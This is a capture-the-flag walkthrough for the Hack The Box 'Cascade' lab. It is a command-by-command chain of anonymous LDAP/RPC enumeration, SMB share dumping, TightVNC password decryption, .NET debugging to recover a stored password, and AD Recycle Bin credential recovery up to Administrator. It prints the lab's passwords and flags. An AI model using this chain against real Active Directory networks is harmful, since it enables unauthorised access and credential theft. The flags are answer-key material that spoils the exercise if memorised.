```yaml
---
title: "HTB Cascade Machine"
excerpt: "Learn how to complete Cascade Machine on HTB."
categories:
  - HTB
tags:
  - HTB
  - HTB Cascade Machine
  - Cascade
  - Medium

toc: true
---
```


ping 10.10.10.182
whatweb 10.10.10.182 -> get error

echo "10.10.10.182 cascade.htb" >> /etc/hosts

nmap cascade.htb
nmap -sCV -O cascade.htb
nmap -p- --min-rate 10000 cascade.htb

RPC 445 and TCP 445 SMB
rpcclient -U "" -N cascade.htb (anonymous login)
enumdomusers -> get user names

TCP 389 LDAP
ldapsearch -H ldap://cascade.htb -x -s base namingcontexts (enumarate)
ldapsearch -H ldap://cascade.htb -x -b "DC=cascade,DC=local" > dumped-ldap
ldapsearch -H ldap://cascade.htb -x -b "DC=cascade,DC=local" '(ObjectClass=person)' > dumped-people

inside dumped-data, find Ryan Thompson (r.thompson:clk0bjVldmE=)
echo 'clk0bjVldmE=' | base64 -d
rY4n5eva
r.thompson:rY4n5eva

crackmapexec smb -u r.thompson -p rY4n5eva cascade.htb --shares

smbclient --user r.thompson --password rY4n5eva //cascade.htb/data
mask ""
prompt OFF
recurse ON
mget *

take a look on Meeting_Notes_June_2018.html -> Steve Smith

cat "VNC Install.reg"
get "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f (TightVNC)

install vncpwd (https://github.com/jeroennijhof/vncpwd)
compile -> run make or gcc -o vncpwd vncpwd.c d3des.c

../vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
s.smith:sT333ve2

crackmapexec winrm cascade.htb -u s.smith -p sT333ve2 (Pwn3d!)
evil-winrm -i cascade.htb -u s.smith -p sT333ve2

cd ..
cat Desktop/user.txt -> get flag (bf64f659bd466e9ecb0fa27ab1c8a9ef)
net user s.smith
net localgroup "Audit Share"

crackmapexec smb -u s.smith -p sT333ve2 cascade.htb --shares -> find Audit$
smbclient --user s.smith --password sT333ve2 //cascade.htb/Audit$
mask ""
prompt OFF
recurse ON
mget *

file DB/Audit.db -> Sqlite 3.x
sqlite3 DB/Audit.db
.tables
select * from DeletedUserAdult
select * from Ldap -> arksvc info (arksvc:BQO5l5Kj9MdErXx6Q6AGOw==)
select * from Misc -> nothing

cat RunAudit.bat -> program runs CascAudit.exe (.NET) with args

copy files to Windows machine
install DNSpy (https://github.com/dnSpy/dnSpy)
open CascAudit.exe -> namespace CascAudiot
mark breakpoint on line 53 (sqliteConnection.Close())
debug program with DB/Audit.db location on arguments
on center bottom division (Locals), find the password
arksvc:w3lc0meFr31nd

crackmapexec winrm cascade.htb -u arksvc -p w3lc0meFr31nd (Pwn3d!)
evil-winrm -i cascade.htb -u arksvc -p w3lc0meFr31nd

net user arksvc -> AD Recycle Bin (https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/)

Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -> get TempAdmin
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property * -> get cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz

echo YmFDVDNyMWFOMDBkbGVz | base64 -d
TempAdmin:baCT3r1aN00dles, i.e., Administrator:baCT3r1aN00dles (remember what was written in the email)

crackmapexec winrm cascade.htb -u administrator -p baCT3r1aN00dles
evil-winrm -i cascade.htb -u administrator -p baCT3r1aN00dles

cd c:\Users\Administrator\Desktop
more root.txt -> get flag (fbd4d4faaf5d7a27696b133ab79db962)